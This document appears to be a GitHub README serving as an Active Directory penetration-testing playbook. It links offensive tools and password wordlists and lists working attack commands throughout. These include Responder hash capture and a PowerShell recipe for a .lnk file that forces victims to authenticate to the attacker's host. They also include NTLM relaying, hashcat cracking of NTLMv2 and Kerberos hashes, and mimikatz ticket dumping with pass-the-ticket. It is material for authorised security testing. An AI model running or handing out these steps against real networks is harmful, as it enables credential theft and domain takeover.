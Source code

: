 # Gunnajs-Playbook
How to pentest like a Gunnaj

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### BloodHound
https://github.com/fox-it/BloodHound.py
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder
### breach-parse
https://github.com/hmaverickadams/breach-parse
### PRET
https://github.com/RUB-NDS/PRET

## Wordlists bby
### Create your own wordlist
https://zzzteph.github.io/weakpass/
### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)


### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021

https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)

# VEV
## Responder
### Kickstart responder
```bash
responder -I eth0 -v
```

### Responder linkifle

#### In Powershell, use each command to create a linkfile for Responder
```ps
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Users\<User>\Desktop\<name>.lnk")
$lnk.TargetPath = "\\<ResponderIP>\@threat.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the dir this file lives in will perform an authentication request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### Crackmapexec NTLM-relay
#### Evaluate no smb-signing
```bash
crackmapexec smb <IPs> --gen-relay-list <output.txt>
```
#### NTLMRelayx
```bash
sudo python3 ntlmrelayx.py -smb2support -tf <IPs>
```
#### Disbale SMB and HTTP in Responder.conf
```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = On
HTTPS = Off
DNS = On
LDAP = On
DCERPC = On
WINRM = On
SNMP = Off
```

## Nmap
#### Scan for Version, OS-type and all open ports to a file
```bash
sudo nmap -sV -O -p- <IP/mask> > file.txt
```
## linWinPwn 
### With AD-user
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password> -o <output_dir>
```
### With Hash
```bash 
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <./krb5cc_ticket> -o <output_dir>
```
### With kerbticket
```bash 
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <LMHASH:NTHASH> -o <output_dir>
```

## BloodHound Dump on Linux (can be wonky)
```bash
./bloodhound.py -c All -u <AD_user> -p <AD_password> -dc <domain controller domain name> -d <domain name>

```
## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<domain.com>
```
### Unmount share
```bash
sudo umount <./folder>
```
### Search for keywords in files
```bash
grep -i <keyword> *
```
## PRET
### Nmap printers
```bash
nmap -p 9100 IP/mask
```
```bash
pret.py target {ps,pjl,pcl}
```
## Zero Logon
* in the making 

### Crack NTLMv2 hashes
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <passlist.txt> -o cracked.txt
```
### Crack kerberos hashes
```bash
hashcat64.exe -m 13100 krb5tgs-hashes.txt <passlist.txt> -o cracked.txt
```
## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
